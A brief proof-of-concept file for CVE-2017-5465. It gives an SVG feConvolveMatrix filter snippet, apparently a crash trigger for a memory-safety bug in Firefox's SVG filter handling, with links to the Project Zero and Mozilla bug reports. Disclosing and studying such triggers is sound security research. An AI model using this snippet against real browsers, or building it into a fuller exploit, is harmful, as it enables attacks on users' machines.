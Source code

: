# CVE-2017-5465

## PoC

```html
<svg filter="url(#f)">
<filter id="f" filterRes="19" filterUnits="userSpaceOnUse">
<feConvolveMatrix kernelMatrix="1 1 1 1 1 1 1 1 1" kernelUnitLength="1 -1" />
```

## Reference

+ [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1185)
+ [Mozilla bug tracker](https://bugzilla.mozilla.org/show_bug.cgi?id=1347617)
